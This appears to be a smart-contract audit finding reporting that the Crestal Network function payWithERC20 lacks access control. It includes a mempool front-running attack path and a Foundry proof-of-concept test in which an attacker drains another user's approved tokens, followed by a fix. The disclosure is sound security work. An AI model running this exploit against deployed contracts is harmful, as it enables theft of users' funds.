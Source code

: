 Wild Merlot Orangutan

High

# Front-Running Vulnerability in `payWithERC20`

### Summary

The `[payWithERC20](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/Payment.sol#L25)` function allows transferring ERC20 tokens from one address (`fromAddress`) to another (`toAddress`). However, **it lacks proper access control**, meaning **anyone can call this function** as long as `fromAddress` has previously approved the contract to spend their tokens.  

This creates a **front-running vulnerability**, where an attacker can **monitor pending transactions**, modify the recipient address, and execute a malicious transaction first, **stealing funds from the original sender**.

### Root Cause

1. **No `msg.sender` Authorization Check**  
   - The function **does not verify** that `msg.sender` is actually `fromAddress`, meaning **anyone can trigger a transfer from another user** if they have approved the contract.
   
2. **Front-Running Risk**  
   - Since blockchain transactions are **publicly visible before execution**, an attacker can **monitor an intended transfer**, craft a malicious transaction with a higher gas fee, and have it executed first.
   - This allows the attacker to **redirect the funds to their own address** before the legitimate transaction executes.


### Internal Pre-conditions

1. Users has approved token allowance
2. Font-Running

### External Pre-conditions

1. Users has approved token allowance
2. Font-Running

### Attack Path

#### **Step 1: Victim Initiates a Transaction**
- Alice calls:
  ```solidity
  userTopUp(tokenAddress, 1000);
  ```
- This transaction is **broadcasted to the mempool**.

#### **Step 2: Attacker Observes the Transaction**
- An attacker (Eve) **monitors** pending transactions in the mempool.
- Eve sees Alice is about to pre fund in `BlueprintCore` contract.

#### **Step 3: Attacker Creates a Malicious Transaction**
- Before Alice’s transaction is confirmed, Eve submits:
  ```solidity
  payWithERC20(tokenAddress, 1000, Alice, Eve);
  ```
- Eve **increases the gas fee** to ensure miners prioritize this transaction.

#### **Step 4: Attacker's Transaction Executes First**
- Because Eve's transaction has a **higher gas fee**, it gets executed before Alice’s.
- **1000 tokens are transferred to Eve instead of Bob**.
- When Alice's original transaction is executed, it **fails due to insufficient balance**, or it executes but the funds are already stolen.


### Impact

- **Users can have their funds stolen if they approve the contract but do not immediately use it.**
- **Attackers can exploit this issue to steal tokens before legitimate transactions are executed.**


### PoC

```solidity
    function test_FrontRun_payWithERC20_userTopUp() public {
        uint256 topUpAmount = 100 * 10 ** 18;

        // Add the payment address
        blueprint.addPaymentAddress(address(mockToken));

        address Alice = makeAddr("Alice");
        vm.startPrank(Alice);
        mockToken.mint(Alice, topUpAmount);

        // Approve the blueprint contract to spend tokens
        mockToken.approve(address(blueprint), topUpAmount);
        vm.stopPrank();

        address attacker = makeAddr("Attacker");
        vm.prank(attacker);
        blueprint.payWithERC20(address(mockToken), topUpAmount, Alice, attacker);

        // Call the userTopUp function but failed
        vm.startPrank(Alice);
        vm.expectRevert();
        blueprint.userTopUp(address(mockToken), topUpAmount);
        vm.stopPrank();
    }
```

### Mitigation

Modify the function so that **only `fromAddress` can initiate the transfer** or make the `payWithERC20` internal.
